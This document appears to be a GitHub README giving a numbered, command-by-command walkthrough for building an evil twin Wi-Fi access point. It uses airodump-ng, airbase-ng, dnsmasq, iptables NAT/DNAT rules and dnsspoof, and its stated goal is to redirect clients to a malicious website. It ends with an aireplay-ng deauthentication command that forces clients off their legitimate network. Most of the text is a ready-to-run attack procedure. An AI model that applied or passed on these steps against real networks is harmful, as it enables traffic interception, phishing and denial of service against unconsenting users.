




# How to Setup the Evil Network:
This document outlines the steps we took in order to setup an evil twin access point and cause clients to be redirected to a malicious website.

# TODO
- need to capture the specific device with airodump-ng wlan1mon
- must make sure monitoring wlan1 is not connected to internet
- explain all steps in detail
- add screenshots

# Prerequisites
- kali linux
- may need an external usb wifi adapter

1. Update Device and install dependencies
	```
	sudo apt-get update
	sudo apt-get install dnsmasq dsniff mariadb-server
	git clone https://github.com/trustedsec/social-engineer-toolkit/ setoolkit/
	cd setoolkit
	pip3 install  Cython
	pip3 install -r requirements.txt
	python3 setup.py
	```
	
2. Configure dns masq

	```
	mkdir /Desktop/eviltwin
	cd /Desktop/eviltwin
	touch dnsmasq.conf
	```

	Enter these details into dnsmasq.conf:
	```
	interface=at0
	dhcp-range=10.0.0.10,10.0.0.250,12h
	dhcp-option=3,10.0.0.1
	dhcp-option=6,10.0.0.1
	server=8.8.8.8
	log-queries
	log-dhcp
	listen-address=127.0.0.1
	```

3. Update NetworkManager.conf  
	`vim /etc/NetworkManager/NetworkManager.conf`

	Add these lines to the end of the file   
	```
	[keyfile]
	unmanaged-devices:mac=AA:BB:CC:DD:EE:FF, A2:B2:C2:D2:E2:F2
	```

4. View available internet interfaces  
	`iwconfig`  
	You should see several devices such as eth0, wlan0, lo, etc.
	
	
	Now plug in your usb wireless adapter and run `iwconfig` again. You should see your new network device with the name of something like wlan1 for example. You will need this for the next step.
	

5. Enable the wireless adapter  
	`ifconfig wlan1 up`

6. Ensure the wireless card is not connected to internet.  
  	`nmcli con`
	If it shows it is connected in the list, disconnect it from the network that is connected to our adapter with:  
	`nmcli con down <UUID>`

7. Now we will create a monitor interface by putting the wireless adapter into monitor mode.  
	`airmon-ng start wlan1`
	You will likely see a message that says to run `airmon-ng check kill` to kill interfering processes. We can safely ignore this.

8. Look at iwconfig again and we can see our new network monitoring device.  
	`iwconfig`
	It will have a name such as `wlan1mon`.
	

9. Find the device to spoof and record the BSSID (mac address), channel, and ESSID.  
	 - First update known manufacturer mac addresses of routers:  
	 `airodump-ng-oui-update`

	- Then get a list of all the devices broadcasting around you.  
	`airodump-ng wlan1mon`  
	Look under the ESSID column for the name of the network you want to spoof.
	When you see it hit  
	`ctrl+c`  
	and then copy that line to a text file.
	Copy down the BSSID (MAC address), CH (channel), and ESSID (Wireless access point name) values.
	

10. Now for fun, take a look at the devices connected to that network.  
	Enter the BSSID from the previous step in this command:  
	`airodump-ng -d A0:A0:A0:00:00:A0 wlan1mon`
	

11. Lets boost our signal strength, to the max legal limit in the US.  
	(Note that not all wireless adapters support this.)
	```
	ifconfig wlan1mon down     
	iw reg set US              
	ifconfig wlan1mon up       
	```
	Again you can check the signal strength with `iwconfig wlan1mon`  
	The Tx-Power should now read 30 dBm.

12. Start up the evil twin AP (access point)  
	Give the evil twin the same name as the network you are attacking on the same channel.  
	`airbase-ng -e "zzzz" -c 11 wlan1mon`  
	At this point you should be able to see your evil network listed under the available wireless networks on your phone or computer. It will have the same name, but not be password protected.
	

13. Create an interface to give the evil twin connection to the internet.  
	```
	ifconfig at0
	ifconfig at0 10.0.0.1 up
	```

14. Route all traffic through the at0 interface.  
	The device wlan0, or eth0 in the second line, must be the interface connected to the internet for this to work. It must be a different interface than the monitoring device.
	```
	iptables --flush
	iptables --table nat --append POSTROUTING --out-interface wlan0 -j MASQUERADE
	iptables --append FORWARD --in-interface at0 -j ACCEPT
	iptables -t nat -A PREROUTING -p tcp --dport 80 -j DNAT --to-destination 10.0.0.1:80
	iptables -t nat -A PREROUTING -j MASQUERADE
	```
	If these commands give errors we can try to use a legacy version of iptables. do the following and then rerun the commands
	`sudo update-alternatives --config iptables`
	Select the `/usr/sbin/iptables-legacy 10 manual mode` option

15. Enable port forwarding  
	`echo 1 > /proc/sys/net/ipv4/ip_forward`

16. Enable the evil twin to allocate ip addresses to clients.  
	`dnsmasq -C /root/Desktop/dnsmasq.conf -d`  
	Congratulations, you have setup a hotspot for yourself.
	
	

17. Now we can start a local Apache webserver that we can redirect traffic to.  
	Place a webpage under  
	`/var/www/html/index.html`  
	Start the server:  
	`sudo /etc/init.d/apache2 start`
	
	Here is our example webpage named `index.html`
	

18. Your apache server is running locally. Record the servers IP address.  
	Either localhost or the devices ip address can be used.  
	`hostname -I` will give you your devices ip address. Additionally you can use localhost which is `127.0.0.1`

19. Now we can do some dns spoofing.  
	Create a file `config/dnsspoof.conf`  
	Add urls you want to spoof to it. For example the following will redirect anyone trying to visit http://www.example.com to our local apache server.  
	`127.0.0.1	example.com`  
	Note that the ip address and url must be separated by a tab, not spaces.
	You can add as many lines like this as you like for redirecting traffic. Currently only http sites work, not https sites.
	


20. Now deauthorize clients so they connect to our network instead of their legit network.  
	`aireplay-ng –deauth 0 -a <BSSID> wlan1mon`


# Caveats
Only works for http websites, not https websites 

## Sources
Follow this tutorial: https://www.yeahhub.com/evil-twin-attack-dnsmasq-wireless-wpa2-psk-cracking/
This one is good too: rootsh3ll.com/evil-twin-attack/


